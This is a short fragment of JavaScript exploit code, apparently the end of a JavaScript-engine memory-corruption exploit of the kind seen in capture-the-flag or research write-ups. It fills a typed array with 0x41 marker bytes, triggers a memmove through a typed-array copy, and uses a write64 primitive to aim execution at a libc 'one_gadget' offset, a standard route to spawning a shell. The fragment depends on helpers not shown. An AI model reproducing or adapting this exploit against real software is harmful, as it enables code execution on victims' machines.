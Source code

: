 ```javascript
    ef[cmd.length] = 0;

    // easier to spot in the debugger
    ab[0] = 0x41
    ab[1] = 0x41
    ab[2] = 0x41
    ab[3] = 0x41
    ab[4] = 0;

    // triggers memmove when copying ef.buffer <- ab.buffer
    ef.set(ab);

    // write on *0x0, crash the binary, poor man's breakpoint
    write64(0x0, 0x0, libc_low + one_gadget, libc_high);

}

main();
```






